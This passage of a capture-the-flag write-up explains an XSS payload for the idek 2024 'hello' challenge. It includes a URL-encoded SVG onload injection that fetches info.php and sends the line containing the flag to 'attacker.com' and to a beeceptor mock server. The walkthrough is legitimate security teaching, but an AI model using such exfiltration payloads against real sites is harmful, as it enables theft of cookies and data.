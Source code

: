 ```js
.forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"attacker.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline
```

Seems a bit scary, but all it does is check whether the string `FLAG` appears in the current line. If it does, it calls `fetch` with `attacker.com/cookies?resp=` and then the line. 
Here's the complete JS part of the payload in all its glory (I also changed the %2b's to pluses):

```js
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "mymockserver123456.free.beeceptor.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```

Or in the final form we'll send to the bot:

```
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"mymockserver123456.free.beeceptor.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>
```

Let's try this:

![hello_flag](/assets/img/idek2024/hello_flag.png)

